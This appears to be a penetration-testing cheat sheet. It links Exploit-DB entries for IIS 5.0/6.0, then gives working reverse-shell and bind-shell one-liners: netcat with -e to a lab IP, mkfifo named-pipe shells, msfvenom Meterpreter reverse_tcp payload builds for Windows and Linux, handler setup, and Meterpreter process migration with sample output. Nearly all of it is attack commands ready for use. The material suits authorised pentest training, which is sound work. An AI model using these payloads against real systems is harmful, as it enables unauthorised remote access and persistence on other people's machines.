 Microsoft IIS 5.0
* WebDAV Remote Code Execution (3) (xwdav): https://www.exploit-db.com/exploits/51
* Microsoft IIS 5.0/6.0 FTP Server (Windows 2000) - Remote Stack Overflow: https://www.exploit-db.com/exploits/9541

# INITIAL EXPLOITATION

Reverse shell tips:
* If a standard reverse-shell such as `nc 10.11.0.222 4444 -e /bin/bash` doesn't work, use `exploit/multi/handler` to catch the connection.

Netcat `-e` flag doesn't exist?
```bash
# Create a named pipe -> redirect data to shell input
$ [mknod/mkfifo] /tmp/backpipe p 
$ /bin/sh 0</tmp/backpipe | nc [target] 443 1>/tmp/backpipe

# Alternative #1 (useful for webapps with code exec)
$ [mknod/mkfifo] /tmp/backpipe p 
$ /bin/sh -c "/bin/sh 0</tmp/backpipe | nc pentestbox 443 1>/tmp/backpipe"

# Alternative #2 - bind shell
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lp <port> > /tmp/f

# Alternative #3 - reverse shell
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <host> <port> > /tmp/f
```

__##################### WARNING: METERPRETER PAYLOADS ARE RESTRICTED ####################__  
Meterpreter reverse-shell + usage:
```bash
# Windows
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=[host] LPORT=444 -f exe -o win_rshell.exe

# Linux
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[host] LPORT=444 -f elf -o lin_rshell.elf

# Use reverse-shell
msf> use exploit/multi/handler
```

Meterpreter migration (if your shell is unstable / process closes or crashes)
```bash
meterpreter > ps                # get PID of process of the same/lower privileges 
PID   PPID  Name              Arch  Session  User                 Path
---   ----  ----              ----  -------  ----                 ----
1548  1516  explorer.exe      x86   0        JOE\joe              C:\WINDOWS\Explorer.EXE

meterpreter > migrate 1548
[*] Migrating from 3048 to 1548...
[*] Migration completed successfully.
```
